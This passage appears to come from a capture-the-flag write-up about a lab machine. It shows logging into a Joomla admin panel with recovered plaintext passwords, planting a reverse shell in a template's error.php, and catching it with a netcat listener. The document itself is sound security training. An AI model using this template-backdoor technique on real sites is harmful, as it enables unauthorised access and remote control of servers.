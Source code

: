 ## Shell as www-data on Joomla

### Log In

I have two usernames from the SQL injection, geordi.la.forge and Guinan. It turns out that each of their passwords is in the list I pulled from the draft post. Using Guinan / ZxJyhGem4k338S2Y logs in as Guinan:

![image-20210615160232293](https://0xdfimages.gitlab.io/img/image-20210615160232293.png)

Logging in with geordi.la.forge / ZD3YxfnSjezg67JZ grants access as Super User:

![image-20210615160154206](https://0xdfimages.gitlab.io/img/image-20210615160154206.png)

The Joomla admin panel is at `/administrator`, and the geordi creds work:

![image-20210615160515063](https://0xdfimages.gitlab.io/img/image-20210615160515063.png)

In the menus I’ll go to Extensions –> Templates –> Templates to see the installed templates:

![image-20210615161159961](https://0xdfimages.gitlab.io/img/image-20210615161159961.png)

### Modify Template

A little trial and error shows that Protostar is the template in user. Clicking on it takes me to the editor with a list of files:

![image-20210615162333576](https://0xdfimages.gitlab.io/img/image-20210615162333576.png)

I’ll add a reverse shell to `error.php`:

![image-20210615162529723](https://0xdfimages.gitlab.io/img/image-20210615162529723.png)

Now I’ll click save.

### Trigger Shell

I need a page that doesn’t exist, so I’ll just add `0xdf` to the end of the `index.php` url and add the IP to get `http://10.10.10.61:8080/index.php/0xdf?ip=10.10.14.8`. On visiting in Firefox, I get a shell:

```

oxdf@parrot$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 33704
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@a7018bfdc454:/var/www/html$ 

```

I’ll upgrade the shell with `script` just like before.
